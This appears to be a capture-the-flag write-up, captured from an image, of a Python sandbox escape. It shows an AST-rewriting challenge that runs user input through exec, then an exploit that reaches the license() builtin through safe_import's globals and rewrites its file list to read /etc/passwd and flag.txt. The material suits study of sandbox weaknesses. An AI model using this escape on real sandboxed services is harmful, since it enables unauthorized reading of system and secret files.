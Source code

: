 ```python

    # turns every assignment into an assignment to 0
    # foo = 20 -> foo = 0
    def visit_Assign(self, node: ast.Assign) -> ast.AST:
        return ast.Assign(targets=node.targets, value=ast.Constant(value=0))

    # turns every mathematical operation into one where the second value is replaced by the first one
    # turns 4 + 10 into 4 + 4 and so on
    def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
        return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))


code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

# execute the AST
exec(compile(cup, '', 'exec'), {'__builtins': {}}, {'safe_import': safe_import, 'safe_call': safe_call})

```


Exploit through license(): <br>


```python
# the exploit makes use of the license() function which reads a file and prints it
>>> license()
A. HISTORY OF THE SOFTWARE
==========================
...

# by default a license file is read, which is defined in the _Printer__filenames attribute
>>> license._Printer__filenames
['/usr/lib/python3.12/../LICENSE.txt', '/usr/lib/python3.12/../LICENSE', '/usr/lib/python3.12/LICENSE.txt', '/usr/lib/python3.12/LICENSE', './LICENSE.txt', './LICENSE']

# this license file can be changed to read arbitrary files
>>> license._Printer__filenames = ['/etc/passwd']   # change the license file to /etc/passwd
>>> license()
root:x:0:0::/root:/bin/zsh
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
...


# EXPLOIT WITH WALRUS OPERATOR
# credit: ChattyPlatinumCool
# first get access to license function using safe_import() and the walrus operator (:=)
# walrus operator: https://docs.python.org/3/whatsnew/3.8.html
[license := safe_import.__globals__['__builtins__'].license];

# then add flag.txt to list of license files
license._Printer__filenames += ['flag.txt'];

# safe_call is now <list.reverse> function i.e. calling safe_call() will reverse the list of filenames, so that flag.txt is read first
[safe_call := license._Printer__filenames.reverse];

# reverse the list so flag.txt is first
safe_call();
```